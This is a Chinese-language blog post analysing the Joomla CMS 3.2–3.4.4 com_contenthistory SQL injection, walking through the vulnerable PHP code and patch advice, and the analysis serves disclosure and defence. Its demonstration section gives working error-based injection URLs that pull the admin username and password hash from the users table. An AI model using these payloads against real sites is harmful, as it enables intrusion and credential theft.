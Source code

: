```yaml
---
layout: post
title: "Joomla CMS 3.2-3.4.4 SQL注入 漏洞分析"
tags: [web, security]
author: RickGray
---
```

* 目录
{:toc}

昨日(2015-10-22)，Joomla CMS发布新版本3.4.5，该版本修复了一个高危的SQL注入漏洞，3.2至3.4.4版本都受到影响。攻击者通过该漏洞可以直接获取获取数据库中敏感信息，甚至可以获取已登陆的管理员会话直接进入网站后台。

### 一、原理分析

在 Joomla CMS 中有一个查看历史编辑版本的组件(com_contenthistory)，该功能本应只有管理员才能访问，但是由于开发人员的疏忽，导致该功能的访问并不需要相应的权限。通过访问 `/index.php?option=com_contenthistory` 可以使得服务端加载历史版本处理组件。程序流程会转到 `/components/com_contenthistory/contenthistory.php` 文件中：

{% highlight php %}
<?php
defined('_JEXEC') or die;

$lang = JFactory::getLanguage();
$lang->load('com_contenthistory', JPATH_ADMINISTRATOR, null, false, true)
||    $lang->load('com_contenthistory', JPATH_SITE, null, false, true);

require_once JPATH_COMPONENT_ADMINISTRATOR . '/contenthistory.php';
{% endhighlight %}

可以看到该组件加载时并没有进行相关权限的监测，而 Joomla 中，一般的后台调用组件 (`/administrator/components/`下的组件) 都会进行组件对应的权限检查，例如后台中的 `com_contact` 组件

{% highlight php %}
if (!JFactory::getUser()->authorise('core.manage', 'com_contact'))
{
    return JError::raiseWarning(404, JText::_('JERROR_ALERTNOAUTHOR'));
}
{% endhighlight %}

但是，程序在处理 `contenthistory` 组建时，并没有进行一个权限检查，程序初始化并设置好组件相关配置后，包含文件 `/administrator/components/com_contenthistory/contenthistory.php`，其内容如下：

{% highlight php %}
<?php
defined('_JEXEC') or die;

$controller = JControllerLegacy::getInstance('Contenthistory', array('base_path' => JPATH_COMPONENT_ADMINISTRATOR));
$controller->execute(JFactory::getApplication()->input->get('task'));
$controller->redirect();
{% endhighlight %}

程序初始化基于 `contenthistory` 组件的控制类 `JControllerLegacy`，然后直接调用控制类的 `execute()` 方法，在 `execute()` 方法中，会调用其控制类中的 `display()`，代码位于 `/libraries/legacy/controller/legacy.php`：

{% highlight php %}
public function display($cachable = false, $urlparams = array())
{
    $document = JFactory::getDocument();
    $viewType = $document->getType();
    $viewName = $this->input->get('view', $this->default_view);
    $viewLayout = $this->input->get('layout', 'default', 'string');

    $view = $this->getView($viewName, $viewType, '', array('base_path' => $this->basePath, 'layout' => $viewLayout));

    // Get/Create the model
    if ($model = $this->getModel($viewName))
    {
        // Push the model into the view (as default)
        $view->setModel($model, true);
    }
    (...省略...)
    if ($cachable && $viewType != 'feed' && $conf->get('caching') >= 1)
    { (...省略...) }
    else
    {
        $view->display();
    }

    return $this;
}
{% endhighlight %}

处理程序从传递的参数中获取 `view` 和 `layout` 的参数值进行初始化视图，并且调用 `$model = $this->getModel($viewName)` 加载对应数据模型，最终会调用 `$view->display()` 函数进行视图处理。

Joomla 新版本 3.4.5 中修复的SQL注入漏洞涉及的是历史查看操作，也就是 `view=history` 时的程序处理会导致注入。在程序进行数据提取时，会进入 `/administrator/components/com_contenthistory/models/history.php` 文件中的 `getListQuery()` 函数：

{% highlight php %}
protected function getListQuery()
{
	// Create a new query object.
	$db = $this->getDbo();
	$query = $db->getQuery(true);

	// Select the required fields from the table.
	$query->select(
		$this->getState(
			'list.select',
			'h.version_id, h.ucm_item_id, h.ucm_type_id, h.version_note, h.save_date, h.editor_user_id,' .
			'h.character_count, h.sha1_hash, h.version_data, h.keep_forever'
		)
	)
	->from($db->quoteName('#__ucm_history') . ' AS h')
	->where($db->quoteName('h.ucm_item_id') . ' = ' . $this->getState('item_id'))
	->where($db->quoteName('h.ucm_type_id') . ' = ' . $this->getState('type_id'))

	// Join over the users for the editor
	->select('uc.name AS editor')
	->join('LEFT', '#__users AS uc ON uc.id = h.editor_user_id');

	// Add the list ordering clause.
	$orderCol = $this->state->get('list.ordering');
	$orderDirn = $this->state->get('list.direction');
	$query->order($db->quoteName($orderCol) . $orderDirn);

	return $query;
}
{% endhighlight %}

注意下面这段SQL语句构造部分：

{% highlight php %}
	$query->select(
		$this->getState(
			'list.select',
			'h.version_id, h.ucm_item_id, h.ucm_type_id, h.version_note, h.save_date, h.editor_user_id,' .
			'h.character_count, h.sha1_hash, h.version_data, h.keep_forever'
		)
	)
	->from($db->quoteName('#__ucm_history') . ' AS h')
	->where($db->quoteName('h.ucm_item_id') . ' = ' . $this->getState('item_id'))
	->where($db->quoteName('h.ucm_type_id') . ' = ' . $this->getState('type_id'))
{% endhighlight %}

其中 `getState()` 函数用于获取模型的属性和其对应的值，其函数定义位于 `/ibraries/legacy/model/legacy.php`：

{% highlight php %}
public function getState($property = null, $default = null)
{
	if (!$this->__state_set)
	{
		// Protected method to auto-populate the model state.
		$this->populateState();

		// Set the model state set flag to true.
		$this->__state_set = true;
	}

	return $property === null ? $this->state : $this->state->get($property, $default);
}
{% endhighlight %}

然后会调用 `populateState()` 函数来初始化参数值和提取并过滤某些参数，在 `contenthistory` 组建中定义有自己的 `populateState()` 函数：

{% highlight php %}
protected function populateState($ordering = null, $direction = null)
{
	(...省略...)
	// List state information.
	parent::populateState('h.save_date', 'DESC');
}
{% endhighlight %}

函数最后，会调用父类的 `populateState()` 函数，因为该数据模型继承于 JModelList，所以父类相关代码位于 `/libraries/legacy/model/list.php` 中，而在父类该函数的处理中会解析请求中传递的 `list[]` 参数，解析并过滤预设键的值，但是却忽略了 `list[select]`：

{% highlight php %}
protected function populateState($ordering = null, $direction = null)
{
	(...省略...)
		// Receive & set list options
		if ($list = $app->getUserStateFromRequest($this->context . '.list', 'list', array(), 'array'))
		{
			foreach ($list as $name => $value)
			{
				// Extra validations
				switch ($name)
				{
					case 'fullordering':
						(...省略...)
					case 'ordering':
						(...省略...)
					case 'direction':
						(...省略...)
					case 'limit':
						(...省略...)
					default:
						$value = $value;
						break;
				}

				$this->setState('list.' . $name, $value);
			}
		}
	(...省略...)
{% endhighlight %}

而传递 `list[select]` 参数值最终会被解析到上述组件视图进行处理时 SQL 语句构建中的 `list.select` 里，从而导致了注入。

### 二、漏洞演示

通过上面简单的分析，已经知道了受影响的 Joomla 版本中，`contenthistory` 组件访问不受权限的控制，并且当进行 `view=history` 请求时会解析请求参数中 `list[select]` 的值拼接到 SQL 语句中。下面是该漏洞的简单验证和利用方法。

*1.漏洞验证*

    http://http://172.16.96.130/xampp/Joomla-3.4.4/index.php?option=com_contenthistory&view=history&list[select]=1

因为在进行 SQL 语句拼接的时候，获取了 `list.ordering` 进行数据查询中的 `order` 操作，若不提供默认会将其设置为数据进行处理，相关处理位于 `/libraries/joomla/database/driver.php` 的 quoteName() 函数中。

因此，访问上述构造的URL，服务器会报错：

![]({{ site.url }}/public/img/article/2015-10-23-joomla_cms_contenthistory_sql_injection_vulnerability/1.png)

*2.漏洞利用*

因为在 SQL 语句拼接时，程序框架针对每个 `from` 或者 `where` 操作进行了换行处理，所以这里并不能使用 `#`、`--` 等符号来注释掉后面的语句，只能通过报错注入进行数据提取。但是语句的成功执行有一定的前提条件，也就是传递的 `item_id` 和 `type_id` 参数值必须于数据库中有效，同时传递 `list[ordering]` 参数 (空值即可)，这样注入的语句才能够得到执行，从而进行报错注入。

这里经过多个漏洞站点的测试可以简单的使用 `item_id=1&type_id=1`，当然了为了准确性和有效性，可以通过爆破的方式来得到这两个参数的有效值，然后再进行注入操作。

(Tips：Joomla 中构造的 SQL 语句中 `#_` 最终会在执行前被替换为表前缀)

下面是获取用户名/密码哈希的漏洞演示过程：

    http://http://172.16.96.130/xampp/Joomla-3.4.4/index.php?option=com_contenthistory&view=history&item_id=1&type_id=1&list[ordering]&list[select]=(select 1 from (select count(*),concat((select username from %23__users limit 0,1),floor(rand(0)*2)) from information_schema.tables group by 2)x)
    
![]({{ site.url }}/public/img/article/2015-10-23-joomla_cms_contenthistory_sql_injection_vulnerability/2.png)

    http://172.16.96.130/xampp/Joomla-3.4.4/index.php?option=com_contenthistory&view=history&item_id=1&type_id=1&list[ordering]&list[select]=(select 1 from (select count(*),concat((select password from %23__users limit 0,1),floor(rand(0)*2)) from information_schema.tables group by 2)x)
    
![]({{ site.url }}/public/img/article/2015-10-23-joomla_cms_contenthistory_sql_injection_vulnerability/3.png)

### 三、修复方案

1. 从 [https://github.com/joomla/joomla-cms/releases](https://github.com/joomla/joomla-cms/releases) 获取最新版本进行重新安装；
2. 从 [https://github.com/joomla/joomla-cms/releases](https://github.com/joomla/joomla-cms/releases) 下载相应版本的补丁程序进行升级；

### 四、总结

就 Joomla CMS 的用户量来看，目前还有大量的站点的数据正受到该漏洞的威胁。该漏洞的产生本质上是由于访问控制的缺失和过滤不严格造成。访问控制的缺失导致本应只有管理员才能进行访问和加载的 `contenthistory` 组件能够被任意用户访问和加载，而参数的过滤不严格，导致攻击者能够构造出恶意的参数到执行流中产生注入。

### 参考

* [http://www.sebug.net/vuldb/ssvid-89680](http://www.sebug.net/vuldb/ssvid-89680)
* [https://blog.sucuri.net/2015/10/joomla-3-4-5-released-fixing-a-serious-sql-injection-vulnerability.html](https://blog.sucuri.net/2015/10/joomla-3-4-5-released-fixing-a-serious-sql-injection-vulnerability.html)
* [https://www.trustwave.com/Resources/SpiderLabs-Blog/Joomla-SQL-Injection-Vulnerability-Exploit-Results-in-Full-Administrative-Access/](https://www.trustwave.com/Resources/SpiderLabs-Blog/Joomla-SQL-Injection-Vulnerability-Exploit-Results-in-Full-Administrative-Access/)
